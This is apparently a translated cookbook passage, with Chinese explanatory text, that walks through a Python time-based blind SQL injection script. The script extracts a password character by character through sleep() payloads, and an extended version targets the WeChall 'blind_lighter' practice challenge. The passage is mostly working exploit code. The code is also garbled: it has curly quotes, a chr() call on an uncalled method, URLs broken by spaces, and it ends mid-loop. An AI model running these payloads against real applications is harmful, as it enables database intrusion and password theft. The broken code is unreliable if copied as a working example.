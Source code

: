 ```
payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
```

我们每次提交字符串中每个字符位置的数据：

```
req = requests.post('<target url>', data=payload, cookies=cookies)
```

我们获取每个请求的响应时间来记录服务器睡眠的时间，然后将该时间从 ascii 值转换回字母：

```
responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
```

对于每个迭代，我们打印出当前已知的密码，然后最终打印出完整密码：

```
answer = ''.join(times)
print “Recovered String: “+ answer
```

## 还有更多…

这个脚本提供了一个框架，可以适应许多不同的场景。web 应用程序挑战网站 Wechall 设置了一个限时、盲目的 SQLi 挑战，必须在很短的时间内完成。下面是我们的原始脚本，它已经适应了这种环境。如您所见，我必须考虑不同值和服务器延迟的较小时间差，并且还引入了一种检查方法，每次重置测试值并自动提交：

```
import subprocess
import requests

def round_down(num, divisor):
    return num - (num%divisor)

subprocess.Popen([“modprobe pcspkr”], shell=True)
subprocess.Popen([“beep”], shell=True)

values = {'0': '0', '25': '1', '50': '2', '75': '3', '100': '4', '125': '5', '150': '6', '175': '7', '200': '8', '225': '9', '250': 'A', '275': 'B', '300': 'C', '325': 'D', '350': 'E', '375': 'F'}
times = []
answer = “This is the first time”
cookies = {'wc': 'cookie'}
setup = requests.get ('http://www.wechall.net/challenge/blind_lighter/index .php?mo=WeChall&me=Sidebar2&rightpanel=0', cookies=cookies)
y=0
accum=0

while 1:
  reset = requests.get('http://www.wechall.net/challenge/blind_lighter/ index.php?reset=me', cookies=cookies)
  for line in reset.text.splitlines():
    if “last hash” in line:
      print “the old hash was:”+line.split(“ “)[20].strip(“.</li>”)
      print “the guessed hash:”+answer
      print “Attempts reset \n \n”
    for x in range(1, 33):
      payload = {'injection': '\'or IF (ord(substr(password, '+str(x)+', 1)) BETWEEN 48 AND 57,sleep((ord(substr(password, '+str(x)+', 1))- 48)/4),sleep((ord(substr(password, '+str(x)+', 1))- 55)/4));#', 'inject': 'Inject'}
      req = requests.post ('http://www.wechall.net/challenge/blind_lighter/ index.php?ajax=1', data=payload, cookies=cookies)
      responsetime = str(req.elapsed)[5]+str(req.elapsed)[6]+str(req.elapsed)[8]+ str(req.elapsed)[9]
      accum = accum + int(responsetime)
      benchmark = int(15)
      benchmarked = int(responsetime) - benchmark
```